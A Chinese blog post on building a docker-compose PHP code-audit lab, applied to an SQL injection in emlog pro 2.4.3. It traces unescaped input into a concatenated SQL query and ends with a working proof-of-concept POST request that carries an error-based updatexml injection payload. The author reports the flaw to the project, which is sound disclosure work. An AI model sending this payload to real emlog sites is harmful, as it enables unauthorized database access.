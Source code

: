 ```yaml
---
author: Noel
pubDatetime: 2025-01-24T16:00:11.000+08:00
modDatetime: 2025-01-24T16:00:11.000+08:00
title: 使用docker-compose快速搭建PHP代码审计环境
featured: false
draft: false
tags:
  - 网络安全
  - 代码审计
description: |
   https://github.com/N0el4kLs/php_aduit_docker-compose，快速搭建PHP代码审计环境
---
```






## Table of Contents

## 前言

最近疯狂代审，对快速搭建环境有一定的需求。之前的[快速搭建环境项目](https://github.com/N0el4kLs/PHPSTORM_Docker_debug)也能用，就是每次要审计另一套新源码时，就得把`src/source`下的代码替换成新项目的，太麻烦了。

于是重新配了个`docker-compose.yaml`，来帮助快速启动环境。主要就是使用的 `location`, 转发到不同web项目的根目录。现在轻松配置后，就能在多套源码之间自由切换。

项目地址：https://github.com/N0el4kLs/php_aduit_docker-compose



下面分享下实际操作过程。

## emlog环境搭建

前往https://github.com/emlog/emlog/releases/tag/pro-2.4.3 下载源码，解压后，将整个项目文件夹移动到`/path/to/php_aduit_docker-compose/src`下。

此时目录结构大致如下：

```
├── README.assets
│  ...
├── README.md
├── docker
│  ...
├── docker-compose.yml
├── logs
│  ...
├── src
│   ├── emlog_pro_2.4.3
│   │   ...
├── docker-compose.yml
├── start.sh
```

随后使用`./start.sh`快速配置`Nginx`：

![image-20250124144622871](https://particles.oss-cn-beijing.aliyuncs.com/blog_img/20250124160750353-dd1ed.png)

![image-20250124144738259](https://particles.oss-cn-beijing.aliyuncs.com/blog_img/20250124160750354-aa908.png)

接下来(重新)启动容器：

```
./start.sh start
or
./start.sh restart
```

![image-20250124144931303](https://particles.oss-cn-beijing.aliyuncs.com/blog_img/20250124160750354-1d167.png)



访问 `http://127.0.0.1:8089/emlog/`,配置安装信息，其中**数据库地址为`mysql:3306`,** 用户名和密码默认为`docker/docker`,如需修改数据库信息，根据情况修改`docker-compose.yml`中就好了。

![image-20250124145058809](https://particles.oss-cn-beijing.aliyuncs.com/blog_img/20250124160750354-a494b.png)



直接安装就行

![image-20250124145407212](https://particles.oss-cn-beijing.aliyuncs.com/blog_img/20250124160750354-8237d.png)

## SQL Injection 分析

在 `src/emlog_pro_2.4.3/include/lib/input.php`中定义了多个获取用户输入的函数，发现除了`function postStrArray()`,其余部分都使用了`addslashe()` 对输入进行了处理。通过查找 `postStrArray()` 的引用, 发现在 `src/emlog_pro_2.4.3/admin/index.php:101`存在一处SQL注入。

在`src/emlog_pro_2.4.3/admin/index.php:101`,将`postStrArray()`的结果赋值给 `shortcut`,随后,变量 `shortcutSet` 随后被传递到 `admin/index.php:110` 中的 `Option::updateOption` 函数。

该函数的实现（位于 `include/lib/option.php:247`）构造了以下 SQL 查询：

```
static function updateOption($name, $value, $isSyntax = false)
{
    $DB = Database::getInstance();
    $value = $isSyntax ? $value : "'$value'";
    $sql = 'INSERT INTO ' . DB_PREFIX . "options (option_name, option_value) values ('$name', $value) ON DUPLICATE KEY UPDATE option_value=$value, option_name='$name'";
    $DB->query($sql);
}
```

变量 `shortcutSet` 被直接拼接到 SQL 语句中，导致了 SQL 注入漏洞。



## POC

```
POST /emlog/admin/index.php?action=add_shortcut HTTP/1.1
Host: 127.0.0.1:8089
Content-Length: 142
Cache-Control: max-age=0
sec-ch-ua: 
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: ""
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1:8089
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:8089/emlog/admin/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=39414d02b517761e4a6cd2d0338bc1c4; EM_AUTHCOOKIE_jKQnE5hqIYWMTSYVJeHeqHO4ulwyvQsN=emlog%7C0%7C42f3cc5fa3f6a21fae628fa3ad525cb8
Connection: close

shortcut%5B%5D=%E9%93%BE%E6%8E%A5%7C%7Clink.php&shortcut[]=test%7c%7ctest.php'%20or%20updatexml(1%2cconcat(0x7e%2c(version()))%2c0)%20or'')%23
```

![image-20250124150918653](https://particles.oss-cn-beijing.aliyuncs.com/blog_img/20250124160750354-829c7.png)



漏洞已提交至仓库Issue：https://github.com/emlog/emlog/issues/313
